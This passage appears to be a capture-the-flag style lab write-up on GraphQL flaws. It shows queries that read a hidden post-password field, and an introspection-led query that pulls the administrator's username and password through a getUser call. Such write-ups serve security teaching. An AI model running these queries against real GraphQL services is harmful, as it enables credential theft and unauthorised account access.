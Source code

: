     query getBlogPost($id: Int!) {
        getBlogPost(id: $id) {
            image
            title
            author
            date
            paragraphs
            postPassword
        }
    }

    {"id":3}

Found the `postPassword` field, submit its value to solve the lab.

### LAB: Accidental exposure of private GraphQL fields
First run a full introspection query to the endpoint `/graphql/v1` using the given query.
Found this function that returns an `User` object by specified `id`.

    {
      "name": "getUser",
      "description": null,
      "args": [
        {
          "name": "id",
          "description": null,
          "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
              "kind": "SCALAR",
              "name": "Int",
              "ofType": null
            }
          },
          "defaultValue": null
        }
      ],
      "type": {
        "kind": "OBJECT",
        "name": "User",
        "ofType": null
      },
      "isDeprecated": false,
      "deprecationReason": null
    }

Contruct this query to look for the administrator account:

    query getUser {
        getUser(id: 1) {
            username
            password
        }
    }
